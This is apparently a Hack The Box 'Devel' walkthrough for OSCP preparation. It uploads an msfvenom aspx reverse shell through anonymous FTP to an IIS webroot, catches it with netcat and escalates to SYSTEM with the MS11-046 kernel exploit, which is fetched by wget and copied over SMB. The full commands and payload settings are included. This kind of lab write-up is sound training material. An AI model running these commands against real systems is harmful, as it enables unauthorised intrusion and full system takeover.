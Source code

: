 ```yaml
---
title: "Hack The Box - Devel"
date: 2020-01-09
tags: [oscp, htb, windows]
collection: oscp-prep
published: true
layout: single
classes: wide
toc: true
toc_label: Table of Contents
headline: "FTP abuse to kernel exploit"
picture: /assets/htb-devel/machine_info.png
---
```


![](/assets/htb-devel/machine_info.png)

## Enumeration

Our Nmap scans show only 2 ports open, running FTP and HTTP. Both are backed by IIS 7.5, telling us that the system is running Windows 7 or Server 2008 R2.

```
Nmap scan report for 10.10.10.5
Host is up, received user-set (0.059s latency).
Scanned at 2020-01-09 13:18:34 EST for 202s
Not shown: 65533 filtered ports
Reason: 65533 no-responses
PORT   STATE SERVICE REASON          VERSION
21/tcp open  ftp     syn-ack ttl 127 Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
```

Gobuster and Nikto show nothing beyond an `/aspnet_client` subsirectory on the HTTP side.

---

## Initial Shell

### Probing FTP

Since web enumeration found nothing of interest, we have to assume the way forward is going to involve FTP in some way. Let's probe FTP and see what we can do.

Initial enumeration of FTP should always include an attempt to login as an `anonymous` user. In this case, we can in fact login as `anonymous`.

![](/assets/htb-devel/ftp_anon_login.png)

Now that we're in the FTP server, where are we? A simple `ls` shows that we're in the root of the web site, as we can see the default IIS page, and the `/aspnet_client` subdirectory.

![](/assets/htb-devel/ftp_webroot.png)

Now we need to test if we can place a test file in the directory as `anonymous`. Since this is the webroot, if we're able to place a file here and pull it up via the web browser, that means we have a way to possibly get RCE.

![](/assets/htb-devel/ftp_put_test.png)

![](/assets/htb-devel/web_test_file.png)

So we can place a file, and retreive it via the web. Since this is IIS, with the `/aspnet_client` present, it means we can probably place a malicious `aspx` page, and get a shell back.

### Create payload and upload via FTP

We can use `msfvenom` to create a payload, and output it to the `aspx` format. The command `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.16 LPORT=7500 -f aspx -o shell.aspx`

![](/assets/htb-devel/msfvenom_create.png)

Now we just need to upload it to the FTP server.

![](/assets/htb-devel/ftp_put_shell.png)

### Open listener and trigger exploit

Before we can trigger the exploit, we need to open a listener to catch the shell first. We can do this with `nc -lvnp 7500`.

Once that's setup, all we need to do it navigate a web browser to `http://10.10.10.5/shell.aspx`. We should now have a shell waiting for us in the listener.

![](/assets/htb-devel/initial_shell.png)

---

## Privlege Escalation

### Getting our bearings

Now that we're on the system, we can look around and see what we're dealing with.

The `systeminfo` command shows that we were correct with our guess of Windows 7 as the OS. Also, note that there are no installed Hotfixes on the machine either.

```
Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          13/1/2020, 4:16:05 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 725 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.528 MB
Virtual Memory: In Use:    519 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
```

A `whoami` command shows that we're currently running as an IIS web service.

![](/assets/htb-devel/whoami.png)

A `net user` command shows that the accounts on the system are `Administrator` and `babis`. The `user.txt` flag is probably on the desktop for `babis`, with the `root.txt` flag on the desktop for `Administrator`.

![](/assets/htb-devel/net_user.png)

We can also see that we can't navigate to the `babis` user directory.

![](/assets/htb-devel/babis_denied.png)

### MS11-046

Since there are no hotfixes installed, we have our choice of kernal exploits for local exploit. MOst exploits found online will trigger, but they are not remote shell friendly. This means that even if I run them, they will open a new instance of `cmd.exe` on the PC, not just escalate my current privleges in the current shell.

[This repository for a MS11-046 exploit](https://github.com/abatchy17/WindowsExploits/tree/master/MS11-046) tells us in the source code that it is in fact *remote-shell friendly*.

```c
// spawn shell (with elevated privileges)
    printf("         [*] Spawning shell\n");
    // spawn SYSTEM shell within the current shell (remote shell friendly)
    system ("c:\\windows\\system32\\cmd.exe /K cd c:\\windows\\system32");
```

There is a pre-compiled EXE available, which makes this as simple as copying to it the target with an SMB share, and running it.

```shell
wget https://github.com/abatchy17/WindowsExploits/raw/master/MS11-046/MS11-046.exe

# Start an SMB server via Impacket's smbserver.py in a new terminal
smbserver.py kali .

# From the remote shell
copy \\10.10.14.16\kali\MS11-046.exe
```

Now all that's left is to run the exploit locally on the target.

![](/assets/htb-devel/privesc_whoami.png)

### Loot!

Once we're `SYSTEM`, grabbing flags is trivial.

![](/assets/htb-devel/user_proof.png)

![](/assets/htb-devel/root_proof.png)






